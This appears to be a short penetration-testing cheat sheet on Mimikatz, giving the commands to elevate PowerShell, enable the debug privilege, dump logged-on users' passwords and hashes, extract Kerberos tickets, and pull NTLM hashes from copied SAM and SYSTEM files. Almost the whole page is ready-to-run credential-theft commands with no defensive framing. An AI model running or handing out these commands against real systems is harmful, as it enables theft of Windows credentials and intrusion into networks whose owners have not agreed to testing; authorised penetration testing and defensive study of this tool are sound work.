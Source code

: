 # Mimikatz

{% hint style="danger" %}
need to be a  local administrator
{% endhint %}

Run as administrator in powershell

```powershell
Start-Process powershell.exe -Verb RunAs
```

### Start mimikatz:

```powershell
.\mimikatz.exe
```

Enable SeDebugPrivilege:

```powershell
privilege::debug
```

### Dump hashes for logged in users

```powershell
sekurlsa::logonpasswords
```

### Extract kerberos tickets

```powershell
sekurlsa::tickets
```



{% code overflow="wrap" %}
```
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```
{% endcode %}





Get NLTM hashs from SAM files:

{% code overflow="wrap" %}
```powershell
.\mimikatz.exe "lsadump::sam /system:c:\temp\SYSTEM /sam:c:\temp\SAM" "exit"
```
{% endcode %}
